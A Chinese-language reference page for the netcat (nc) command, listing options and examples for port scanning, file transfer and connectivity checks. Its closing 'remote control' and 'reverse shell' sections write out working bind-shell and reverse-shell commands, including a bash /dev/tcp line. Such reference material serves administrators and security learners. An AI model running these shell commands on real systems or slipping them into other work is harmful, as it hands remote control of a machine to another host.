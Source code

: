 nc
===
`netcat`

nc是网络工具中的瑞士军刀

## 补充说明

**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 
和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

###  语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

###  选项

```shell
-4 只使用IPV4
-6 只使用IPV6
-c 使用tls连接或者监听
-D 启用socket调试开关
-g <网关> # 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目> # 设置来源路由指向器，其数值为4的倍数。
-h 在线帮助。
-i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
-l 使用监听模式，管控传入的资料。
-n 直接使用IP地址，而不通过域名服务器。
-o<输出文件> # 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p<通信端口> # 设置本地主机使用的通信端口。
-r 乱数指定本地与远端主机的通信端口。
-s<来源位址> # 设置本地主机送出数据包的IP地址。
-u 使用UDP传输协议。
-v 显示指令执行过程。
-w<超时秒数> # 设置等待连线的时间。
-z 使用0输入/输出模式，只在扫描通信端口时使用。
```

### 实例

**TCP端口扫描**

```shell
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open
```

扫描192.168.0.3 的端口 范围是 1-100
**扫描UDP端口**

```shell
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  # 扫描192.168.0.3 的端口 范围是 1-1000
```

**扫描指定端口**

```shell
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```shell
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```
**文件传输**

```shell
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```shell
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

**远程控制**

```shell
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```shell
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

**反弹shell**

```shell
# 控制端执行下面的命令：
nc -lvnp 8888
```

```
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

